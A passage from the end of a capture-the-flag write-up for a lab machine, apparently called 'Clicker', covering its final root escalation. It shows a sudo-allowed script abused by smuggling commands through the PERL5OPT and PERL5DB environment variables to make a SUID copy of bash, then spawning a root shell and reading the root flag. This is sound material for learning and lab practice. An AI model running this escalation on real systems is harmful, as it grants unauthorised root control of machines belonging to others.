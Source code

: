 - Now just remains to copy `/usr/bin/bash`binary to `/home/jack` and then change the owner and UID Permissions *(User ID Permissions)*:

```bash
# In $HOME Directory:
jack@clicker:~$ cp /bin/bash .
# FROM /opt Directory:
jack@clicker:/opt$ sudo PERL5OPT=-d PERL5DB='chown root:root /home/jack/bash' /opt/monitor.sh
jack@clicker:/opt$ sudo PERL5OPT=-d PERL5DB='chmod u+s /home/jack/bash' /opt/monitor.sh
# In $HOME Directory:
jack@clicker:~$ ./bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/
bash-5.1# cat root.txt
# Root flag here
```

### 🕵️ Pwned!!! 🕵️

#### We got the root flag in /root/root.txt and finally complete the machine with full access to system!! 🏆

Happy Hacking!!

----

## Author: Mateo Fumis 
